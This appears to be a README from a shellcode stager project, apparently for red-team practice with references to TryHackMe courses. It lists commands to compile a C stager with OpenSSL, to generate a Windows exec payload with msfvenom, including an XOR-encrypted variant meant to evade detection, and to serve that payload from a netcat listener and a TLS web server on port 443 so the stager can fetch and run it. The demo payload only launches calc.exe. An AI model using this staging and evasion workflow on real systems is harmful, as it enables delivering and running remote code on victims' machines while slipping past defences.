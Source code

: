 Get OpenSSL (no light, 32 + 64) : https://slproweb.com/products/Win32OpenSSL.html

Get Mingw (POSIX, 32 + 64): https://winlibs.com/


//32 bits
$env:C_INCLUDE_PATH = 'C:\OpenSSL32\include'
$env:Path += ';C:\mingw32\bin;C:\OpenSSL32\bin'
gcc.exe .\stager.c -lwsock32 -L"C:/OpenSSL64/lib/VC/x86/MD" -lssl


//64 bits
$env:C_INCLUDE_PATH = 'C:\OpenSSL64\include'
$env:Path += ';C:\mingw64\bin;C:\OpenSSL64\bin'
gcc.exe .\stager.c -lwsock32 -L"C:/OpenSSL64/lib/VC/x64/MD" -lssl


//create payload
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread -f raw -o shell
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread --encrypt=xor --encrypt=YoloSpaceHacker -f raw -o shell


//serve payload
nc -lvnp 9000 < shell

sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER);context.load_cert_chain('localhost.pem', 'localhost.key');httpd.socket=context.wrap_socket(httpd.socket,server_side=True);httpd.serve_forever()"




THM_* scripts are extracted from TryHackMe courses, not tested yet.